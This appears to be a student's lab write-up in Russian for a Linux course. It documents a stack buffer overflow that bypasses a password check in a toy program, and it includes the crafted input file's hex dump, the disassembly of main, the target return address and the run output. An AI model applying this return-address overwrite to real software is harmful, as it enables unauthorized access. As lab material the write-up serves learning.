 # Задание 1

Абонентский справочник был написан с использованием функций изначально. 

# Задание 2 

Файл переданный
 
**input.bin**
```
┌────────┬─────────────────────────┬────────┐
│00000000│ 68 65 6c 6c 6f 00 ff ff │hello⋄××│
│00000008│ ff 7f 00 00 40 de ff ff │×•⋄⋄@×××│
│00000010│ ff 7f 00 00 cd 11 40    │×•⋄⋄×•@ │
└────────┴─────────────────────────┴────────┘
```
Команды:

``` asm
Dump of assembler code for function main:
   0x000000000040118f <+0>:	push   %rbp
   0x0000000000401190 <+1>:	mov    %rsp,%rbp
   0x0000000000401193 <+4>:	sub    $0x10,%rsp
   0x0000000000401197 <+8>:	lea    0xe6b(%rip),%rax        # 0x402009
   0x000000000040119e <+15>:	mov    %rax,%rdi
   0x00000000004011a1 <+18>:	call   0x401030 <puts@plt>
   0x00000000004011a6 <+23>:	call   0x401156 <IsPassOk>
   0x00000000004011ab <+28>:	mov    %eax,-0x4(%rbp)
   0x00000000004011ae <+31>:	cmpl   $0x0,-0x4(%rbp)
   0x00000000004011b2 <+35>:	jne    0x4011cd <main+62>
   0x00000000004011b4 <+37>:	lea    0xe5e(%rip),%rax        # 0x402019
   0x00000000004011bb <+44>:	mov    %rax,%rdi
   0x00000000004011be <+47>:	call   0x401030 <puts@plt>
   0x00000000004011c3 <+52>:	mov    $0x1,%edi
   0x00000000004011c8 <+57>:	call   0x401060 <exit@plt>
   0x00000000004011cd <+62>:	lea    0xe53(%rip),%rax        # 0x402027 (в этом адресе хранится нужная строка)
   0x00000000004011d4 <+69>:	mov    %rax,%rdi
   0x00000000004011d7 <+72>:	call   0x401030 <puts@plt>
   0x00000000004011dc <+77>:	mov    $0x0,%eax
   0x00000000004011e1 <+82>:	leave
   0x00000000004011e2 <+83>:	ret
End of assembler dump.
```
Нужный адрес `0x00000000004011cd`.
Переполнением перезаписал регистр rbi (rbp+8), записав в файле: 12 байт, сохраненный `rbp`, адрес нужной команды. 

``` sh
➜  EltexSchoolLinux git:(main) X ./main < input.bin 
Enter password:
Access granted!
[1]    37940 segmentation fault (core dumped)  ./main < input.bin
```

---

В причине segmentation fault  не уверен 

